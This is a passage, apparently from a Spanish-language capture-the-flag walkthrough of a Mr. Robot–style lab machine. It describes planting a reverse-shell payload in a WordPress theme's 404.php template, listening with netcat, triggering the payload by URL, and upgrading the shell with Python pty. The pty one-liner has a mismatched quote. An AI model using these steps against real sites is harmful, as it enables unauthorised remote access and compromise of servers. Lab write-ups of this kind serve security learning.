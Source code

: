 Lo editamos, poniendo nuestra dirección IP de atacantes y el puerto en el que estaremos en escucha por netcat, le damos a Update File para guardar los cambios

Ahora en la terminal, nos ponemos en escucha por netcat en el puerto especificado con el siguiente comando

```bash
nc -nlvp [Puerto]
```
Ahora tenemos que ejecutar de alguna forma el payload. Desde el navegador, buscamos la siguiente dirección siguiendo la ruta de la plantilla 404

```
http://[IPvictima]/wp-content/themes/twentyfifteen/404.php
```

![Imagen019](19.jpeg)

Lo primero que haremos como siempre que ganamos acceso a un sistemas, es spawnearnos una Shell con Python y el módulo pty, para ello utilizamos el siguiente comando

```python
python -c 'import pty; pty.spawn("/bin/bash)'
```

Para poder limpiar la pantalla con CTRL + L ejecutamos el siguiente comando

```bash
export TERM=xterm
```

Si vamos al directorio /home/robot, podremos encontrar dos archivos, de los cuales, uno es la segunda key.

![Imagen020](20.jpeg)
